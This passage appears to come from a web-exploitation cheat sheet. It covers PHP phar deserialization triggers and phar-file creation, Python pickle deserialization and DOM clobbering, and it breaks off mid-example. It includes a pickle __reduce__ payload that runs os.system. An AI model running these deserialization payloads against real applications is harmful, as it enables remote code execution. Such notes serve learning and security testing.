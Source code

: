     | Trigger               |           |                |
    |:----------------------|:----------|:---------------|
    | file\_get\_contents() | include() | file\_exists() |
    | getimagesize()        | unlink()  | file()         |
    | fopen()               | is\_dir() | ...            |

    - Create phar file by `php --define phar.readonly=0 ${file}`
      ```php
      <?php
        class Cat {}
        $phar = new Phar("pharfile.phar");
        $phar->startBuffering();
        $phar->setStub("<?php __HALT_COMPILER(); ?>");
        $c = new Cat();
        $phar->setMetadata($c);
        $phar->addFromString("meow.txt", "owo");
        $phar->stopBuffering();
      ?>
      ```
  - [POP Chain](https://github.com/ambionics/phpggc)
- Python
  - Magic Method
    - \_\_reduce\_\_()
  - pickle
    > Stack-based virtual pickle machine

    ```python
    class Exploit(object):
      def __reduce__(self):
        return (os.system, ('id', ))

    serialized = pickle.dumps(Exploit())
    pickle.loads(serialized)
    #pickletools.dis(serialized)
    ```

#### DOM Clobbering
- Inject HTML into a page to manipulate the DOM to change the behavior of JavaScript on the page
  - Access by `id` directly or by `windows.id`
    ```html
    <any id="a"></any>
    <script>
      console.log(a)
      console.log(window.a)
    </script>
    ```
  - Access by `document.a` additionally
    ```html
    <img name="a">
    <form name="b"></form>
    <embed name="c">
    <object name="d"></object>
    <script>
      console.log(document.a)
      console.log(document.b)
      console.log(document.c)
      console.log(document.d)
    </script>
    ```
  - Access by combination of `id` and `name`
    ```html
    <any id="a"></any>